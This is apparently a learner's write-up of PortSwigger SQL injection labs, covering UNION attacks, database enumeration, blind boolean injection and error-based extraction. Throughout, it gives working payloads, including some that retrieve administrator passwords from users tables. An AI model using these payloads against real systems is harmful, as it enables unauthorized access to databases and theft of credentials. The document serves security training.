

# 🕌 SQL injection

SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

#### SQL injection UNION attacks

The `UNION` keyword enables you to execute one or more additional `SELECT` queries and append the results to the original query

#### Determining the number of columns required

injecting a series of `ORDER BY` clauses and incrementing the specified column index until an error occurs. For example, if the injection point is a quoted string within the `WHERE` clause of the original query, you would submit:

`' ORDER BY 1--`&#x20;

`' ORDER BY 2--`&#x20;

`' ORDER BY 3--`&#x20;

`etc.`

The second method involves submitting a series of `UNION SELECT` payloads specifying a different number of null values:

`' UNION SELECT NULL--`&#x20;

`' UNION SELECT NULL,NULL--`&#x20;

`' UNION SELECT NULL,NULL,NULL--`&#x20;

`etc.`

If the number of nulls does not match the number of columns, the database returns an error

### Lab: SQL injection UNION attack, determining the number of columns returned by the query

so for this one i just did some recon and looked for the number of columns with the union select parameter, adding NULL variables until it doesn't error out:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

#### Database-specific syntax

On Oracle, every `SELECT` query must use the `FROM` keyword and specify a valid table. There is a built-in table on Oracle called `dual` which can be used for this purpose.

```
' UNION SELECT NULL FROM DUAL--
```

other DB specific syntax:[https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

After you determine the number of required columns, you can probe each column to test whether it can hold string data. You can submit a series of `UNION SELECT` payloads that place a string value into each column in turn. For example, if the query returns four columns, you would submit:

`' UNION SELECT 'a',NULL,NULL,NULL--`&#x20;

`' UNION SELECT NULL,'a',NULL,NULL--`&#x20;

`' UNION SELECT NULL,NULL,'a',NULL--`&#x20;

`' UNION SELECT NULL,NULL,NULL,'a'--`

If the column data type is not compatible with string data, the injected query will cause a database error,

### Lab: SQL injection UNION attack, finding a column containing text

for this one i first determined the number of columns, it took me 3 NULL's to bypass the error, i then inputted the requested string in the different columns to finally solve the lab:

<figure><figcaption></figcaption></figure>

#### Using a SQL injection UNION attack to retrieve interesting data

### Lab: SQL injection UNION attack, retrieving data from other tables

<figure><figcaption></figcaption></figure>

So we are given all the informations needed to construct our sqli,&#x20;

<figure><figcaption></figcaption></figure>

and on the webpage we got:

<figure><figcaption></figcaption></figure>

and you just need to connect with those creds to solve lab

#### Retrieving multiple values within a single column

In some cases the query in the previous example may only return a single column.

You can retrieve multiple values together within this single column by concatenating the values together with a separator. On oracle, the syntax would be:

```
' UNION SELECT username || '~' || password FROM users--
```

### Lab: SQL injection UNION attack, retrieving multiple values in a single column

i start by figuring out how many columns:

<figure><figcaption></figcaption></figure>

then which one is the good column:

<figure><figcaption></figcaption></figure>

and final payload ->

<figure><figcaption></figcaption></figure>

#### Querying the database type and version

You can potentially identify both the database type and version by injecting provider-specific queries to see if one works

<figure><figcaption></figcaption></figure>

### Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

We start by looking for the number of columns:

<figure><figcaption></figcaption></figure>

and try to print the version

<figure><figcaption></figcaption></figure>

#### Listing the contents of the database

Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.

For example, you can query `information_schema.tables` to list the tables in the database:

`SELECT * FROM information_schema.tables`

### Lab: SQL injection attack, listing the database contents on non-Oracle databases

We start by looking at the interesting tables

```
GET /filter?category=Lifestyle' UNION SELECT table_name, null FROM information_schema.tables--
```

<figure><figcaption></figcaption></figure>

then check the columns in that table to print out the interesting values

```
GET /filter?category=Lifestyle' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users_znlzdn'--
```

<figure><figcaption></figcaption></figure>

```
GET /filter?category=Lifestyle' UNION SELECT username_fjtbql, password_mjqvpb FROM users_znlzdn--
```

<figure><figcaption></figcaption></figure>

#### Blind SQL injection

Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

Many techniques such as `UNION` attacks are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses.

### Lab: Blind SQL injection with conditional responses

When we don't input well the sqli, the "Welcome back" message does not pop:

<figure><figcaption></figcaption></figure>

but when we input it well ->

<figure><figcaption></figcaption></figure>

To verify there is a table called users ->

```
TrackingId=fNg3RnqiOBbPgwwI'AND (SELECT 'a' FROM users LIMIT 1)='a
```

* `AND`: This is a logical operator used to combine conditions in SQL queries.
* `(SELECT 'a' FROM users LIMIT 1)='a'`: This part is a subquery. It's attempting to select the character `'a'` from the `users` table with a limit of 1 row. Then, it compares this selected value with the character `'a'`.

Now i want to check if there is a administrator user like the exercice says:

<figure><figcaption></figcaption></figure>

```
TrackingId=fNg3RnqiOBbPgwwI'AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

Now we need to determine the length of the password ->

```
TrackingId=fNg3RnqiOBbPgwwI'AND (SELECT 'b' FROM users WHERE username='administrator' AND LENGTH (password)>19)='b
```

This returns us Welcome back assuming that it is true but when we put in 20 we don't have it anymore. Just to be sure, we can change to = ->

<figure><figcaption></figcaption></figure>

#### Error-based SQL injection

It's when you're able to use error messages to either extract or infer sensitive data from the database, even in blind contexts.

* Return a specific error response based on the result of a boolean expression.
* Trigger error messages that output the data returned by the query


### Lab: Blind SQL injection with conditional responses

We're able to make an error with a single quote on the tracking ID:

<figure><figcaption></figcaption></figure>

We can test out the bounderies of this injection with TRUE & FALSE conditions:

```
' AND '1'='1
' AND '1'='2
```

<figure><figcaption><p>True statement</p></figcaption></figure>

<figure><figcaption><p>False statement</p></figcaption></figure>

Since we have the name of the tables and columns to exploit, we can make the correct query:

```
' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) > 'm
```

1. **SELECT password FROM users WHERE username = 'administrator'**: This is a SQL query selecting the password from a table called 'users' where the username is 'administrator'. It's attempting to retrieve the password associated with the administrator account.
2. **SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1)**: This part of the expression is attempting to extract a substring from the password selected in the previous step. It's grabbing the first character of the password.
3. **> 'm'**: This is a conditional statement comparing the first character of the password to the letter 'm'. If the ASCII value of the first character of the password is greater than the ASCII value of 'm', the condition will be true.


#### Extracting sensitive data via verbose SQL error messages

Misconfiguration of the database sometimes results in verbose error messages, ex:

```
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char
```

We can see that in this case, we're injecting into a single-quoted string inside a `WHERE` statement. This makes it easier to construct a valid query containing a malicious payload.

You can use the `CAST()` function to convert one data type to another. For example, imagine a query containing the following statement:

```
CAST((SELECT example_column FROM example_table) AS int)
```

### Lab: Visible error-based SQL injection

we are able to trigger an error with a single quote on the tracking id:

<figure><figcaption></figcaption></figure>

If we use the CAST command, we get a different error:

<figure><figcaption></figcaption></figure>

If we input this query, we do not have any errors anymore&#x20;

```
' AND 1=CAST((SELECT 1 ) AS int)--
```

`AND 1=CAST((SELECT 1 ) AS int)`: This is the injected SQL code. It attempts to manipulate the SQL query's logic to always evaluate to true. It checks if 1 is equal to the result of casting the value 1 as an integer. This condition will always be true.

But if we try to adapt and put:

<figure><figcaption></figcaption></figure>

we see the query is cut to a certain point, so we need to free some space by reducing the initial tracking ID

```
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

<figure><figcaption></figcaption></figure>

The error is different, so now we can try printing out the password:

<figure><figcaption></figcaption></figure>

and just like that we are able to connect to the admin account

final payload:

```
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

